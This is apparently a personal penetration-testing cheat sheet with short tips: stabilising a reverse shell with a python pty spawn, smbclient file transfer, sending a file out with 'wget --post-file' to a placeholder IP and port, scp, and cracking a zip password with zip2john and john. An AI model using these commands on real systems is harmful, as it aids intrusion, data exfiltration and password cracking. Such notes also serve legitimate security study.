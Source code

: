 1)) If you get a reverse shell you know what that's look like without meterpreter or something. If you want to get a stable,interactive bash shell and if python is 
supported, then
> python -c "import pty; pty.spawn('/bin/bash')"

2)) Sometimes i get confused with smbclient. So this note is for mine.
> smbclient -L $IP$or$domain$

> smbclient \\\\\\\\$IP$or$domain$\\\\share

For downloading a file from remote server,
> get file

For uploading a file to remote server,
> put file

3)) When sending a POST request using the ' --post-file ' option, Wget treats the file as a binary file and will send every character in the POST request without stripping trailing newline or formfeed characters. Any other control characters in the text will also be sent as-is in the POST request.

> wget --post-file=file_to_post $desIP$:$PORT$

4)) scp (secure copy) command in Linux system is used to copy file(s) between servers in a secure way. The SCP command or secure copy allows secure transferring of files in between the local host and the remote host or between two remote hosts.

> scp <user@ip>:file-location destination

5)) If you have a password protected zip file,then you can use our useful friend john.

> zip2john file.zip > file.hash
> john file.hash


